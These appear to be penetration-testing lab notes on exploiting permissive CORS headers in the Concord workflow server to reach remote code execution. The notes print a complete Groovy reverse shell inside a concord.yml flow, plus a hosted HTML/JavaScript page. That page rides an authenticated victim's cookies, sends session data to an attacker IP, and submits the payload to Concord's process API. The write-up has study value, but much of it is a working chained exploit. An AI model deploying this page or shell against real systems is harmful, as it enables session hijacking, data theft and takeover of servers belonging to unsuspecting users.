 ## Reading the Documentation

Now that we have understood what the vulnerability is, and we have found a potential vector, we can start our research on what we can/can't do and how can we exploit.

CORS exploits are similar to reflected _Cross-Site Scripting_ (XSS) in that we must send a link to an already-authenticated user in order to exploit something of value.
The difference with CORS is that the link we send will not be on the same domain as the site we are targeting.
Since Concord has some permissive CORS headers, any site that an authenticated user visits can interact with Concord and ride the user's session.
Thus, we will host our own site. A site that will host a JavaScript payload that will run in the victim's browser and interact with Concord(riding the user's session).

Now, even though we understand how to exploit this vulnerability, we need to understand how can we specifically exploit concord.
Thus, we need to find a special request that can we can get executed from the user's session, that either elevates our privileges, or allows us to obtain sensitive information.
For this, we will move on to the concord API's documentation.
Moreover, because the concord CORS headers, have some restrictions, we need to be selective with what types of requests we search for.

There are only 3 types of requests we can work with:
1. GET request that obtains sensitive information.
2. GET request that changes the state of the application.
3. POST request that only uses standard content-types.

For example, the first section that catches our eye is the API key section.
Here, we see the request /api/v1/apikey.
This looks interesting as it creates a new API key for a user, this might seem interesting until we notice that the POST request uses application/json content-type, which means, before sending the request it will send an OPTIONS method request, which replies with different CORS headers that are not as vulnerable:

![](../../03.%20Images/t8-ss18.png)

Moving on, further reading the documentation, we land on the process section.
Here, we see an endpoint to "Start a Process".
A process in concord, is the execution of a flow in a repo, of a project.
This might lead to code execution, and thus we can start inspecting more.

The request is a standard POST request, which requires the "multipart/form-data" content-type, which is a standard content-type and does not require a preflight check.
We don't have to worry about the authentication, as even though concord could authenticate requests solely with an _Authorization_ header, most modern graphical sites coded for browser-based clients use cookies for authentication.
In addition, since the server sent the _Access-Control-Allow-Credentials_ header, we can assume that cookies are used for session management.

![](../../03.%20Images/t8-ss19.png)

Reading the documentation further, we see how we can start a concord process by uploading a ZIP file.
The documentation explains, how we can create a zip archive with a concord.yml file that contains a "flow". Concord describes a flow as a "series of steps executing various actions":

Further in the documentation, it even states that we don't even need to provide a ZIP file, and can just provide the concord.yml file to get the process running:

![](../../03.%20Images/t8-ss20.png)

The documentation says "The format is described in Directory Structure document."
Thus, we can visit the URL to the directory structure, to study potential paths to code execution.

The document defines a concord.yml file as "a Concord DSL file containing the main flow, configuration, profiles and other declarations"
and a DSL as "Concord DSL files contain configuration, flows, profiles and other declarations."

Finally, we can try and understand what a flow is. which seems to be our most likeable command execution vector.
Studying further, on how we can set up a flow, we can see the groovy script example, in the "Scripting" section:

![](../../03.%20Images/t8-ss21.png)

The script, first imports the groovy dependency, then sets the script variable to groovy. This will instruct concord to execute the command as groovy.
With that setup, we can finally add the main body, and set it as a basic reverse shell. Our final concord.yml file will look like so:

```groovy
configuration:
  dependencies:
  - "mvn://org.codehaus.groovy:groovy-all:pom:2.5.2"
flows:
  default:
    - script: groovy
      body: |
         String host = "<kali IP}>";
         int port = 9000;
         String cmd = "/bin/sh";
         Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
         Socket s = new Socket(host, port);
         InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
         OutputStream po = p.getOutputStream(), so = s.getOutputStream();
         while (!s.isClosed()) {
         while (pi.available() > 0) so.write(pi.read());
         while (pe.available() > 0) so.write(pe.read());
         while (si.available() > 0) po.write(si.read());
         so.flush();
         po.flush();
         Thread.sleep(50);
         try {
            p.exitValue();
            break;
         } catch (Exception e) {}
         };
         p.destroy();
         s.close();
```

With the script ready, we need to create a website that our victim will visit who's session we will ride.
The website code will look like so:

```html
<html>
	<head>
		<script>
			fetch("http://concord:8001/api/service/console/whoami", {
				credentials: 'include'
			})
			.then(async (response) => {
			if(response.status != 401){
				let data = await response.text();
				fetch("http://192.168.118.2/?msg=" + data )
			}else{
				fetch("http://192.168.118.2/?msg=UserNotLoggedIn" )
			}
			})
		</script>
	</head>
	<body>
	</body>
</html>
```

The code will first check if the user is logged in.
If the response status is not 401(meaning the user is logged in), the captured data will be sent back.
However, if the user is not logged in meaning a 401 status response, a message will be sent back to the kali server saying that the user is not logged in.

We can save the html file, and host a python http server and send the link to our victim, and wait for a response.
To make sure the webpage is working, we will visit the attacker IP, and expect a UserNotLoggedIn message to the kali server:

![](../../03.%20Images/t8-ss22.png)

Now, we wait for an authenticated victim to visit our webpage:

![](../../03.%20Images/t8-ss23.png)

We see that our exploit is working correctly.
Now all we need to do is, include our groovy script, as a file, inside the request we're sending riding the user's session:

```html
<html>
<head>
	<script>
		yml = `
configuration:
  dependencies:
  - "mvn://org.codehaus.groovy:groovy-all:pom:2.5.2"
flows:
  default:
    - script: groovy
      body: |
         String host = "192.168.119.155";
         int port = 9000;
         String cmd = "/bin/sh";
         Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
         Socket s = new Socket(host, port);
         InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
         OutputStream po = p.getOutputStream(), so = s.getOutputStream();
         while (!s.isClosed()) {
         while (pi.available() > 0) so.write(pi.read());
         while (pe.available() > 0) so.write(pe.read());
         while (si.available() > 0) po.write(si.read());
         so.flush();
         po.flush();
         Thread.sleep(50);
         try {
            p.exitValue();
            break;
         } catch (Exception e) {}
         };
         p.destroy();
         s.close();
`         
		fetch("http://concord:8001/api/service/console/whoami", {
				credentials: 'include'
		})
			.then(async (response) => {
			if(response.status != 401){
				let data = await response.text();
				fetch("http://192.168.119.155/?msg=" + data )
				rce();
			}
			else{
				fetch("http://192.168.119.155/?msg=UserNotLoggedIn" )
			}
		})
		function rce() {
			var ymlBlob = new Blob([yml], { type: "application/yml" });
			var fd = new FormData();
			fd.append('concord.yml', ymlBlob);
			fetch("http://concord:8001/api/v1/process", {
			    credentials: 'include',
				method: 'POST',
			    body: fd
			})
				.then(response => response.text())
				.then(data => {
			    	fetch("http://192.168.119.155/?msg=" + data )
				}).catch(err => {
			    	fetch("http://192.168.119.155/?err=" + err )
				});
			}
		</script>
</head>
<body>
</body>
</html>
```

We'll first add our groovy script in a "yml" variable.
Then, we define the function "rce", that will start by creating a blob from the yml string, with the content-type "application/yml".
Next, we create the form-data for fetch, we append that, to the end of the concord.yml document.
We use fetch, to make the actual request, and deal with responses and catch any errors.
Finally, we call the function, in the ".then" promise, where the user is logged into the application.

With the payload ready, we can setup a listener to catch the reverse shell, and wait for the victim to visit our link. Finally, we get the reverse shell:

![](../../03.%20Images/t8-ss24.png)